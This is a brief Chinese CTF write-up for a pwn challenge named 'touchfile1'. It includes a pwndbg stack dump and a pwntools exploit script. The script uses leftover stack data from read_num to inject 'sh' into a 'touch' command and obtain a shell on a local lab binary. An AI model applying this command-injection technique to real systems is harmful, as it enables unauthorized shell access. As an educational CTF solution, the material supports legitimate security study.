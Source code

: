 ## touchfile1


***

出题人：xsh

![image-20240413224717995](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413224717995.png)

```
rsp   0x7ffea5dafc60 —▸ 0x561c2e99545c (main) ◂— endbr64 
01:0008│       0x7ffea5dafc68 —▸ 0x561c2e997d90 (__do_global_dtors_aux_fini_array_entry) —▸ 0x561c2e9951c0 (__do_global_dtors_aux) ◂— endbr64 
02:0010│ rsi-6 0x7ffea5dafc70 ◂— 0x206863756f74 /* 'touch ' */
03:0018│       0x7ffea5dafc78 ◂— 0x0
... ↓          2 skipped
06:0030│       0x7ffea5dafc90 ◂— 0xa68730a31 /* '1\nsh\n' */  # read_num 的栈残留
07:0038│       0x7ffea5dafc98 ◂— 0x403ecd5005a71300

```

调试会发现，我们写入的数据和 read_num 函数的栈数据残留相邻，因此可以通过在 read_num 函数写入 sh 执行以此绕过

exp

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
p = process('./touch_file1')
elf = ELF('./touch_file1')

#gdb.attach(p, 'b *$rebase(0x12c0)\n')

p.sendlineafter(b'> ', b'1' + b'\n' + b'sh')
p.sendlineafter(b'file_name: ', b'a'*0x1a)

p.interactive()
#pause()


```





